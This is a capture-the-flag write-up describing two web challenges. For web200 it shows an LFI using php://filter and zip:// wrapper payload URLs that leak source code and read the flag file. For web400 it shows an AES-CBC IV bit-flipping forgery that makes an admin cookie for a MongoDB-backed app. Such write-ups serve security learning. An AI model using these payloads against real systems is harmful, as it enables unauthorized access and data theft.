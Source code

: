 Participated as Ad Victoriam.

## web200

I've found a LFI vulnerability in a GET parameter by testing the parameter in the `index.php`.
It sounded more like that the code executes in the form of `include(null_filter($var).".php");`.

Later on, I've tried `php://filter` on the param and I was able to leak out the sourcecode of the `upload.php`.
`(index.php?mode=php://filter/convert.base64-encode/resource=upload)`

As we look further of how `upload.php` work,
we find out that the file checks for the extension but does not check the contents of the file.

Based on this information, we can think about zipping the file and load the php script from the zip file.

The possible payload from this can be `index.php?mode=zip:///var/www/owlur/owlur-upload-zzzzzz/*returned_filename_from_upload_php*.jpg%23*your_real_payload*`

Through this method you will be able to list the directory and read files, and eventually let you to read the file named `OWLUR-FLAG.txt` on the `/` directory.

```
GET: index.php?zip:///var/www/owlur/owlur-upload-zzzzzz/tqpmLQ2.jpg%23stypr

Response:
owlur
pwning complete by stypr
FLAG->PHP fILTerZ aR3 c00l buT i pr3f3r f1lt3r 0xc0ffee
```

--

## web400

The database seemed to be truncated every 15 minutes or so, and you can find out that the 'admin' username is taken whenever the database gets truncated.
The best possible case is to try a sql injection based on the functionality of mongodb and python.
As we move on by reading the `index.py` script given from the ctf, we find out thaat the script encrypts the `auth` param in the cookie with AES-CBC encryption which is vulnerable to padding attacks.
Moreover, if we think about the code `user = g.db.users.find_one(get_cookie())` and the outline of how mongodb works,
we can actually remove the password parameter and let the cookie have the username only in it.

```
python: {"u":"username", "pw":"stypr"}
mongodb: SELECT * FROM (unknown) WHERE u='username' and pw='stypr'

python: {"u":"username"}
mongodb: SELECT * FROM (unknown) WHERE u='username'
```

Based on the things we kept in our mind, we just need to make the auth cookie to have `{"u":"admin"}\x03\x03\x03` as the plaintext.


```
- cbc padding vulnerability
    $ python
    ... (stripped - it does "plaintext xor iv xor fake_text" to create a fake iv) ...
    >>> print(base64.b64encode(malformed_iv+original_data))
        2zSNdk462MFkrqqwXK1Uut9d81nyZ7RGbV2q7PDX4uo=

- setting up the cookie (I just had put this on a javascript console)
    document.cookie="auth=2zSNdk462MFkrqqwXK1Uut9d81nyZ7RGbV2q7PDX4uo;"

- the response I've got
    <h2>Logged in as admin</h2> 
    ...
    <span class="badge badge-important">1</span><span class="btn btn-link" onclick="play('the_owls_are_watching_again')">THIS IS THE KEY</span></br></br>
```